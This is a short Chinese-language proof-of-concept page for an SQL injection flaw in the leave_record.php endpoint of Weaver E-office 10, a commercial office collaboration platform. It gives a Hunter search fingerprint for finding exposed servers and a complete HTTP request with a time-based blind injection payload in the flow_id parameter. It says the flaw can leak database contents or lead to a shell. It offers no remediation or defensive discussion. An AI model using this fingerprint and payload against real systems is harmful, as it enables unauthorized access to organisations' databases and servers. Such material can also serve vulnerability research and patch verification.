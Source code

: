 # 泛微E-office-10接口leave_record.php存在SQL注入漏洞

泛微eoffice10协同办公平台是一款专业的office办公的工具软件。软件支持在线多人编辑文件，并且会在第一时间收发协作需求。十分方便快捷，界面简约，布局直观清晰，操作简单，极易上手，是一款不可多得的利器。泛微E-office 10 leave_record存在SQL注入漏洞，攻击者可通过该漏洞获取数据库敏感信息甚至getshell。

## hunter

```yaml
web.body="eoffice10"&&web.body="eoffice_loading_tip"
```

## poc

```yaml
GET /eoffice10/server/ext/system_support/leave_record.php?flow_id=1%27+AND+%28SELECT+4196+FROM+%28SELECT%28SLEEP%285%29%29%29LWzs%29+AND+%27zfNf%27%3D%27zfNf&run_id=1&table_field=1&table_field_name=user()&max_rows=10 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:122.0) Gecko/20100101 Firefox/122.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407171255148.png)